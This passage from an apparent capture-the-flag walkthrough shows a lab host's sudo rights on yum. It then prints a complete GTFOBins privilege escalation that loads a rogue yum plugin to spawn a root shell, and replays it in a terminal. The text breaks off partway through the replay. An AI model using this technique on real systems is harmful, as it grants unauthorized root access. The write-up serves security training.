 ````commandline
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$
````

So now we know this user is allowed to run RedHat `yum` package manager as superuser, and this without a password. But anyway, the password we have so far. So we have to take a look on the [GTFOBins](https://gtfobins.github.io/) and see what possibilities we have. Looking there reveals us:

````commandline
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
````

So applying this information and we can grab the `root.txt` flag!

````commandline
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
````